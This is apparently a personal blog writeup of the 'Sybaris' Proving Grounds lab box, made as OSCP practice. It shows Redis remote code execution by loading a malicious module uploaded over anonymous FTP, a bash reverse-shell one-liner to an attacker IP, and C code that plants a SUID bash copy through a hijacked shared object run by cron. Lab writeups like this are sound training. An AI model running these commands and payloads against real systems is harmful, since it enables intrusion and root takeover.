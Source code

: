 ```yaml
---
layout: writeup
title: Sybaris - Proving Grounds
date: 2024-07-15 13:32:20 +0300
description: A Writeup of the Sybaris Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's a writeup for Sybaris, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

I check out port 80 by entering it into the web browser and begin a directory scan in the background: 

![Sybaris1.png](/assets/images/Sybaris/Sybaris1.png){: .responsive-image}

Seems like a basic blog run over the `HTMLy` platform. It doesn't really look like there's anything here, and the directory scan reveals a `/login` page but not much else. Entering any credentials to the admin page seems to take us to `http://$IP/login/login`. I also find nothing for HTMLy exploits. 

I move on temporarily from the web server and check out port 21. It looks like we are able to login with `anonymous:anonymous` credentials, and we see a directory called `pub`, but it's empty, and we can't upload anything to it. It actually hangs trying to `cd` into it, but when we `ls pub` we get nothing. 

That leaves port 6379, a redis server. Fortunately we got a little experience with redis through the [Readys](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/) box. We can access it without authentication using `redis-cli -H $IP`, but there's not much interesting when we check the info, and it looks like the db is empty when we use `pyredis-dump.py`. Hm. I do a little research to see what other information could be viewed, but I don't see anything that stands out even when I view the full configs (`CONFIG GET *`) or check for keys or hashes (`KEYS *`, `HKEYS *`). 

So it's time to start looking for exploits at this point. I give [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) a shot even though the redis version is 5.0.9 (rather than 5.0.5 and before) but no luck. I tried writing a [PHP webshell](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell) and , [creating an SSH key](https://github.com/iw00tr00t/Redis-Server-Exploit),  but I couldn't write against a read-only replica. I assumed this precluded some of the other suggestions, but I was mistaken. It turns out the actual answer is to [load a malicious redis module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)to perform RCE. Now hacktricks links to [this github page](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) so you can clone the repo and compile it using `sudo make`, but please note that **this will not work** on ARM devices such as MacOS. A discord user suggested using the pre-compiled module from  the redis-rogue-server exploit linked above. 

*I had to look into hints for this because apparently there was an issue with my connection.*

When I tried to upload a test file into the FTP server early on, I was unable to, and crucially, the FTP hung when I tried to `cd pub`. It actually hung another time as well. I assumed we could not access this directory, but after reading a writeup, I was incorrect, so I tried again. This time it worked. I'm ot sure why it worked sometimes and not others, maybe I was wearing it out with a directory scan or something, but regardless, we need to `put` the compiled module /`redis-rogue-server/exp.so` into pub, the full PATH of which is `/var/ftp/pub/exp.so`. From there we use `MODULE LOAD /var/ftp/pub/exp.so`, which allows us to use `system.exec` to execute commands as so:

![Sybaris2.png](/assets/images/Sybaris/Sybaris2.png){: .responsive-image}

After that I tried uploading a reverse shell which I got to download from my server but didn't execute, so I just ran a simple `system.exec "/bin/bash -i >& /dev/tcp/192.168.45.183/6379 0>&1"` from the redis-cli, and I was able to catch the shell with a penelope listener as pablo. 

![Sybaris3.png](/assets/images/Sybaris/Sybaris3.png){: .responsive-image}

I start enumerating from there and check out lse.sh. First things first:

![Sybaris4.png](/assets/images/Sybaris/Sybaris4.png){: .responsive-image}

It's empty. Thanks for nothing lse.

![Sybaris5.png](/assets/images/Sybaris/Sybaris5.png){: .responsive-image}

Here we go. Cron-job and a writable path. If we try to run the binary, we see there is a missing object file. We can create it, and it will be run with the log-sweeper binary. 

![Sybaris6.png](/assets/images/Sybaris/Sybaris6.png){: .responsive-image}

We create a c file on our kali machine:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

And transfer it to our target machine in the `/usr/local/lib/dev` folder. Then we run gcc on it: `gcc -shared -fPIC -nostartfiles -o utils utils.so`. This file will move a copy of `bash` to `/tmp` and add the SUID bit. That means when it runs, there should be a copy of bash in /tmp, and we can run `/tmp/bash -p` and get root. And it does and we do. 

![Sybaris7.png](/assets/images/Sybaris/Sybaris7.png){: .responsive-image}
